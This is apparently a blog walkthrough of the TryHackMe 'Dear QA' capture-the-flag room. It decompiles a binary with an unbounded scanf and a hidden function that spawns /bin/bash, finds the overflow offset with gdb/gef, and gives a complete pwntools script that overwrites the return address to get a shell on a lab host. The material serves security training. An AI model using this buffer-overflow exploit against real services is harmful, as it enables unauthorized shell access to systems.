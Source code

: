 ```yaml
---
layout: post
title: Walkthrough - Dear QA
published: true
---
```


Tags: PWN, Reversing, Overflow, ASM.
Description: Are you able to solve this challenge involving reverse engineering and exploit development?
Difficulty: Easy
URL: [https://tryhackme.com/room/dearqa](https://tryhackme.com/room/dearqa)

* * *

## Notes

- `file DearQA.DearQA`
- analyze the file in ghidra

There are a few different functions:

```c
void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
```

```c
undefined8 main(void)

{
  undefined local_28 [32];
  
  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What\'s your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
```

```c
void __libc_csu_init(EVP_PKEY_CTX *param_1,undefined8 param_2,undefined8 param_3)

{
  long lVar1;
  
  lVar1 = 0;
  _init(param_1);
  do {
    (*(code *)(&__frame_dummy_init_array_entry)[lVar1])((ulong)param_1 & 0xffffffff,param_2,param_3)
    ;
    lVar1 = lVar1 + 1;
  } while (lVar1 != 1);
  return;
}
```

So this should be vulnerable to buffer ovrflow however I only have experience doing buffer overflows with windows executables. Buffer overflows occer when we send a program enough data so we can overflow it and overwrite other data or alter it. We might be able to use this vulnerability to jump to the vuln function which executes the /bin/bash and gain access to the server. 

For windows I would use Immunity debugger to find if the files has protections but in linux we can use `gdb` and `gef` to find the protections

![](/assets/dear-qa01.png)

This shows us that the file has all of the security protections turned off. So now what we need to do is find the offset where we can overflow the binary.

`pattern create 50` creates a pattern of 50 chars that we can use to send to the program. We can then check the memory and see if its overwritten with our pattern.

We then use `r` in gef to run the program and it should crash. so lets examine the memory address. 

![](/assets/dear-qa02.png)

We can use `x/xg $rsp` to call the memory address then after getting the address use `pattern offset 0x6161616161616166` We can now test to show control of the RSP, by running the binary again and replacing the RSP with all B's.

- create our pattern `python3 -c "print('A' * 40 + 'B' * 8)"` and run the code again pasting in our new pattern.

![](/assets/dear-qa03.png)

So since we confirmed we have control of the RSP variable, if we were to put a valid address on the RSP we can cause the program to continue through execution of the program. So we can use this to jump to the vuln function. 

Becuase the program has ASLR disabled this mean the binary will use the exact memory addresses every time it starts.

The vuln function has the memory address `0x00400686`

So with all of this information we can now create our exploit.

```python
#!/usr/bin/env python3

# import all from pwn
from pwn import *

# target address
host = "10.10.216.48"
port = "5700"

# target executable information
context(terminal = ['tmux', 'new-window'])
binary = context.binary = ELF("./DearQA.DearQA")
context(os = "linux", arch = "amd64")

# connect to target
connect = remote(host, port)
log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")

# payload with target memory address
payload = b'A' * 40
payload += p64(0x00400686)

# send payload and keep socket open
log.info("[+] Sending payload to remote server")
connect.sendline(payload)
connect.interactive()
```

Executing the script gives us a reverse shell. However its not sending us back any information when we send characters. We can try to send through another reverse shell.

Not easy!

* * * 

## flag

![](/assets/dear-qa04.png)

* * * 

